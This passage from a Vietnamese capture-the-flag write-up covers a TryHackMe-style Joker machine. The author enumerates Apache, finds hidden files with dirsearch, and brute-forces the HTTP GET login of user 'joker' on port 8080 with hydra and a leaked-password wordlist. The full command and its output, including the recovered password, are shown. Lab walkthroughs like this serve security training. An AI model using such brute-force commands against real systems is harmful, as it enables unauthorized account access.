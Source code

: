 __What version of Apache is it?: 2.4.29__

__What port on this machine not need to be authenticated by user and password? 80__

Với file ẩn, tôi sử dụng *dirsearch* và thêm extension txt, php, bak. Tồi tìm được path ẩn là __secret.txt__

Cũng bằng cách này tôi tìm được file hệ thống là __phpinfo.php__

## Enumeration 

Khi chuyển sang port 8080, tôi có username *joker* và phải tìm password để đăng nhập. Sau khi dùng Burp để bắt request thì tôi nhận ra phương thức được sử dụng là http-get chứ không phải post

![burp](/assets/img/2022-05-01-THM-HA-Joker-CTF/2.webp)

Sử dụng *hydra* để bruteforce password của user *joker*

```python
┌──(kali㉿kali)-[~]
└─$ hydra -l joker -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-70.txt -s 8080 10.10.17.48 http-get
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

...

[DATA] max 16 tasks per 1 server, overall 16 tasks, 42660 login tries (l:1/p:42660), ~2667 tries per task
[DATA] attacking http-get://10.10.17.48:8080/
[8080][http-get] host: 10.10.17.48   login: joker   password: hannah
```

Sau khi đăng nhập thành công, tôi được đưa đến 1 trang blog sử dụng Joomla CMS. 
